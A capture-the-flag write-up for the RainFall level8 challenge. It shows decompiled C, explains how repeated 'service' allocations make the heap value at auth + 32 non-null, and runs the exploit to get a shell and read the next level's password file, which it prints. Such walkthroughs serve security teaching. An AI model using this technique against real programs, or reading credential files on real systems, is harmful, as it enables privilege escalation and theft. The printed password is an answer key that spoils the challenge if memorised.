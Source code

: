 ## Step 1: Static & Dynamic Analysis

```c
08048564    int32_t main(int32_t argc, char** argv, char** envp)
08048564    {
08048564        while (true)
08048591        {
08048591            uint32_t* const fp;
08048591            printf("%p, %p \n", auth, service, fp);
080485b3            bool c_1 = false;
080485b3            void buf;
080485b3            bool z_1 = !fgets(&buf, 128, stdin);
080485b3            
080485b5            if (z_1)
080485b5                break;
080485b5            
080485c6            int32_t i = 5;
080485cb            void* buf_cpy = &buf;
080485cd            char const* const auth_str = "auth ";
080485cd            
080485cf            while (i)
080485cf            {
080485cf                char char_buff = *(uint8_t*)buf_cpy;
080485cf                char const char_auth = *(uint8_t*)auth_str;
080485cf                c_1 = char_buff < char_auth;
080485cf                z_1 = char_buff == char_auth;
080485cf                buf_cpy += 1;
080485cf                auth_str = &auth_str[1];
080485cf                i -= 1;
080485cf                
080485cf                if (!z_1)
080485cf                    break;
080485cf            }
080485cf            
080485e0            bool c_2 = false;
080485e0            bool z_2 = !(int32_t)((!z_1 && !c_1) - c_1);
080485e0            
080485e2            if (z_2)
080485e2            {
080485f0                auth = malloc(4);
080485fa                **(uint32_t**)&auth = 0;
08048616                int32_t i_1 = -1;
0804861a                void var_8b;
0804861a                void* edi_1 = &var_8b;
0804861a                
0804861c                while (i_1)
0804861c                {
0804861c                    bool cond:4_1 = 0 != *(uint8_t*)edi_1;
0804861c                    edi_1 += 1;
0804861c                    i_1 -= 1;
0804861c                    
0804861c                    if (!cond:4_1)
0804861c                        break;
0804861c                }
0804861c                
08048625                c_2 = ~i_1 - 1 < 0x1e;
08048625                z_2 = ~i_1 == 0x1f;
08048625                
08048628                if (z_2 || c_2)
0804863d                    strcpy(auth, &var_8b);
080485e2            }
080485e2            
0804864d            int32_t i_2 = 5;
08048652            void* esi_1 = &buf;
08048654            char const* const edi_2 = "reset";
08048654            
08048656            while (i_2)
08048656            {
08048656                char temp2_1 = *(uint8_t*)esi_1;
08048656                char const temp3_1 = *(uint8_t*)edi_2;
08048656                c_2 = temp2_1 < temp3_1;
08048656                z_2 = temp2_1 == temp3_1;
08048656                esi_1 += 1;
08048656                edi_2 = &edi_2[1];
08048656                i_2 -= 1;
08048656                
08048656                if (!z_2)
08048656                    break;
08048656            }
08048656            
08048667            bool c_3 = false;
08048667            bool z_3 = !(int32_t)((!z_2 && !c_2) - c_2);
08048667            
08048669            if (z_3)
08048673                free(auth);
08048673            
08048683            int32_t i_3 = 6;
08048688            void* esi_2 = &buf;
0804868a            char const* const edi_3 = "service";
0804868a            
0804868c            while (i_3)
0804868c            {
0804868c                char temp4_1 = *(uint8_t*)esi_2;
0804868c                char const temp5_1 = *(uint8_t*)edi_3;
0804868c                c_3 = temp4_1 < temp5_1;
0804868c                z_3 = temp4_1 == temp5_1;
0804868c                esi_2 += 1;
0804868c                edi_3 = &edi_3[1];
0804868c                i_3 -= 1;
0804868c                
0804868c                if (!z_3)
0804868c                    break;
0804868c            }
0804868c            
0804869d            bool c_4 = false;
0804869d            bool z_4 = !(int32_t)((!z_3 && !c_3) - c_3);
0804869d            
0804869f            if (z_4)
0804869f            {
080486a5                c_4 = &buf >= 0xfffffff9;
080486a5                z_4 = &buf == 0xfffffff9;
080486b0                void s;
080486b0                service = strdup(&s);
0804869f            }
0804869f            
080486c0            int32_t i_4 = 5;
080486c5            void* esi_3 = &buf;
080486c7            char const* const edi_4 = "login";
080486c7            
080486c9            while (i_4)
080486c9            {
080486c9                char temp7_1 = *(uint8_t*)esi_3;
080486c9                char const temp8_1 = *(uint8_t*)edi_4;
080486c9                c_4 = temp7_1 < temp8_1;
080486c9                z_4 = temp7_1 == temp8_1;
080486c9                esi_3 += 1;
080486c9                edi_4 = &edi_4[1];
080486c9                i_4 -= 1;
080486c9                
080486c9                if (!z_4)
080486c9                    break;
080486c9            }
080486c9            
080486dc            if (!(int32_t)((!z_4 && !c_4) - c_4))
080486dc            {
080486ec                if (!*(uint32_t*)(auth + 32))
080486ec                {
0804870b                    fp = stdout;
08048722                    fwrite("Password:\n", 1, 10, fp);
080486ec                }
080486ec                else
080486f5                    system("/bin/sh");
080486dc            }
08048591        }
08048591        
08048738        return 0;
08048564    }
```

### Explanation

The binary expects one of these four specific strings as input: `auth `, `reset`, `service`, and `login`. For our exploit, we will only focus on `auth `, `service`, and `login`.

The final check before spawning a shell occurs in the `login` part. It verifies that the value at `auth + 32` is not null. The `auth` variable is a global variable initially set to null. When the user inputs `auth `, the binary allocates `4` bytes of memory and sets the pointer to this allocated memory in the `auth` variable. It then uses `strcpy()` to copy a `\n` into this memory.

Our goal is to ensure that `auth + 32` is set to a non-null value to pass the check and spawn the shell.

To achieve this, we leverage the `service` input functionality. When the user inputs `service`, the binary allocates another block of memory directly after the previous allocation and also stores a `\n` in it.

```asm
(gdb) x/12wx auth
0x804a008:      0x0000000a      0x00000000      0x00000000      0x00020ff1
0x804a018:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a028:      0x00000000      0x00000000      0x00000000      0x00000000
```

After providing the `auth ` input, we can see that the first block contains `0x0000000a` (representing `\n`).

```asm
(gdb) x/12wx auth
0x804a008:      0x0000000a      0x00000000      0x00000000      0x00000011
0x804a018:      0x0000000a      0x00000000      0x00000000      0x00020fe1
0x804a028:      0x00000000      0x00000000      0x00000000      0x00000000
```

Next, when `service` is given as input, we can observe that another memory block is allocated immediately after the `auth ` block, aligned to `16-byte` boundaries.

```asm
0x804a008:      0x0000000a      0x00000000      0x00000000      0x00000011
0x804a018:      0x0000000a      0x00000000      0x00000000      0x00000011
0x804a028:      0x0000000a      0x00000000      0x00000000      0x00020fd1
```

By providing `service` as input one more time, we ensure that `auth + 32` is no longer null. Now, when we input `login`, the binary performs the check, finds that `auth + 32` is set, and spawns a shell.

```bash
login
$ id
uid=2008(level8) gid=2008(level8) groups=2008(level8),100(users)
```

## Step 2: Exploiting the Binary

```bash
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth 
0x804a008, (nil) 
service
0x804a008, 0x804a018 
service
0x804a008, 0x804a028 
login

$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```